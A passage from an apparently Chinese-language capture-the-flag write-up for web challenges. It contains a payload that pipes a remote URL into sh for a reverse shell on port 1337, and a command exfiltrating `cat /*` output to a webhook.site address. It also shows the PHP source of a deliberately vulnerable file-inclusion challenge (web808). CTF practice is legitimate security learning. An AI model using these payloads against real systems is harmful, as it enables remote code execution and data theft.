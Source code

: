 ```
?url=https://your-shell.com/ip:1337 | sh
```

ip为自己服务器ip

先在服务器上监听1337端口

然后找flag

![image-20241202201756820](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412022017917.png)

**法2：vps外带**

我们利用https://webhook.site/进行flag外带

```
?url=https://webhook.site/25364e81-eb5f-4bed-bdd8-ef0954269270?flag=`cat /*`
```

![image-20241202202319556](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412022023601.png)



## 卡临时文件包含

### web808

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-20 11:01:02
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-20 22:18:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
$file = $_GET['file'];


if(isset($file) && !preg_match("/input|data|phar|log/i",$file)){
    include $file;
}else{
    show_source(__FILE__);
    print_r(scandir("/tmp"));
}

Array ( [0] => . [1] => .. )
```
